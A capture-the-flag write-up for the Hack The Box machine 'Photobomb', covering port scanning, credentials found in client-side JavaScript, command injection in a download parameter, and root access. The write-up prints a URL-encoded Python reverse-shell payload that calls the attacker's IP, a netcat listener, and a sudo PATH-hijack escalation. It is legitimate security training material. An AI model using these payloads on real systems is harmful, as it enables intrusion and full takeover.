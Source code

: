 -> Started by enumerating this machine
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 10.10.11.182   

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 14:24 EST
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.78 seconds
```
-> Here I dont find much, so I go online, and I find an interesting js file /photobomb.js
![jsonline](https://user-images.githubusercontent.com/47869173/220764971-4011a7eb-3fc5-4896-a187-642df7113bd1.png)
```
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

-> Its a login pH0t0:b0Mb!, so I try to login, and got access, but there is nothing to see, so I try and intercept the dowload button with burp, and modify the filetype parameter to get a reverse shell

%3bexport+RHOST%3d"10.10.14.135"%3bexport+RPORT%3d7777%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
![reverseshellburp](https://user-images.githubusercontent.com/47869173/220764975-826b4903-daaf-426c-89a6-d05c93f28c5e.png)
```
┌──(root㉿kali)-[/home/astra]
└─# nc -lvnp 7777

listening on [any] 7777 ...
connect to [10.10.14.135] from (UNKNOWN) [10.10.11.182] 42570
$ 
```
-> Anddd we got access, now I find the first flag user.txt
```
$ cd
cd
$ cat user.txt                                                                                                                                                                                                                              
cat user.txt                                                                                                                                                                                                                                
49d347a1b7a3c694f35dea84b1aec200                                                                                                                                                                                                            
$  
```
-> Now we have to escalate privileges, we already have linpeas.sh installed on the system.
```
Linpeas -> Linpeas is a popular tool used to search for possible paths to escalate privileges on Linux, Unix, and MacOS hosts.

Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
-> Found out that I can run "cleanup.sh" without permission, and a file named "find" with "bash-p"
```
wizard@photobomb:~$ cat find
cat find
bash -p
wizard@photobomb:~$ chmod +x find
chmod +x find
wizard@photobomb:~$ ./find
./find
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# 
```
-> We got root access, now just look for the flag
```

root@photobomb:/home/wizard/photobomb# cd
cd
root@photobomb:~# cat root.txt  
cat root.txt
01e8faa319f55858b805b53e0fcd3eb4
root@photobomb:~# 
```

